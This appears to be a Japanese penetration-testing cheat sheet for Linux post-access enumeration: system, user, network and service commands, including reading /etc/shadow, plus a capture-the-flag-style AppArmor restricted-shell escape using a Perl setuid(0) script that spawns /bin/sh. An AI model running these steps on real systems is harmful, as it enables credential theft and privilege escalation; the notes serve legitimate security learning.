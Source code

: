 # 列挙

## システム

```shell
# ディストリビューション
ls /etc/*-release
hostname
hostnamectl
lscpu

cat /etc/passwd
cat /etc/group
cat /etc/shadow

ls -lh /var/mail/

ls -lh /usr/bin/
ls -lh /sbin/

# インストールされている全てのパッケージ
rpm -qa
dpkg -l
```

## ユーザー

```shell
# ログインしているユーザー
who
# 誰がログインしていて何をしているか
w
# 最後にログインしたユーザー
last

# ユーザーとグループID
id

sudo -l
```

## ネットワーク

```shell
# IPアドレスと短縮形
ip address show
ip a s

# DNS
cat /etc/resolv.conf

# ネットワーク接続、ルーティング
# -a	リスニングソケットと非リスニングソケットの両方を表示
# -l	リスニングソケットのみ表示
# -n	IPアドレスとポート番号を解決する代わりに数値出力を表示
# -t	TCP
# -u	UDPI
# -x    unix
# -p	(要sudo)ソケットが属するプログラムのPIDと名前を表示
sudo netstat -plt
sudo netstat -atupn

ss -tulnp

# ネットワーク接続
sudo lsof -i
# 25ポート関連のみ
sudo lsof -i :25
# 特定のディレクトリ下で開かれているファイル
sudo lsof +D /path/to/directory
```

## サービス

```shell
# 実行中の全てのプロセス
ps -ef

# ASCIIアートでツリー構造を表現
ps axf

# リソース使用率なども含まれる
ps aux

# サービス一覧
systemctl list-units --type=service --state=running

ls /usr/lib/systemd/system

# 状態
systemctl status <service-name>

# 実行ファイルの情報なども確認できる
systemctl cat <service-name>

# ログ
sudo journalctl -f -u <service-name>
```

```sh
# 特定期間のログ
journalctl --since "2025-03-07 17:00:00" --until  "2025-03-07 18:00:00"

# 特定期間に変更されたファイル
find . -type f -newermt "2024-07-10 12:00" ! -newermt "2024-07-12 18:00"
```

### pspy

非特権ユーザーでもある程度、誰が何を実行しているか分かるツール。  
https://github.com/DominicBreuker/pspy

## AppArmor

パーミッションがあるはずなのにパーミッション不足でエラーになる場合、AppArmor で制限されているかもしれない。

```shell
# 現在のシェルの種類確認
think@publisher:/var/tmp$ echo $0
-ash

# シェル用のルール確認
think@publisher:/var/tmp$ cat /etc/apparmor.d/usr.sbin.ash
#include <tunables/global>

/usr/sbin/ash flags=(complain) {
  #include <abstractions/base>
  #include <abstractions/bash>
  #include <abstractions/consoles>
  #include <abstractions/nameservice>
  #include <abstractions/user-tmp>

  # Remove specific file path rules
  # Deny access to certain directories
  deny /opt/ r,
  deny /opt/** w,
  deny /tmp/** w,
  deny /dev/shm w,
  deny /var/tmp w,
  deny /home/** w,
  /usr/bin/** mrix,
  /usr/sbin/** mrix,

  # Simplified rule for accessing /home directory
  owner /home/** rix,
}
```

下記の形で制限を回避できる可能性がある。

```shell
echo  '#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh"' > /var/tmp/test.pl
chmod +x /var/tmp/test.pl
/var/tmp/test.pl
```

また、書き込み権限があるが上書きエラーになる場合、追記のみ許可されている場合がある。  
lsattr で確認可能。

```shell
# a が表示されたら追記モード
lsattr <file>
-----a--------e----- <file>
```
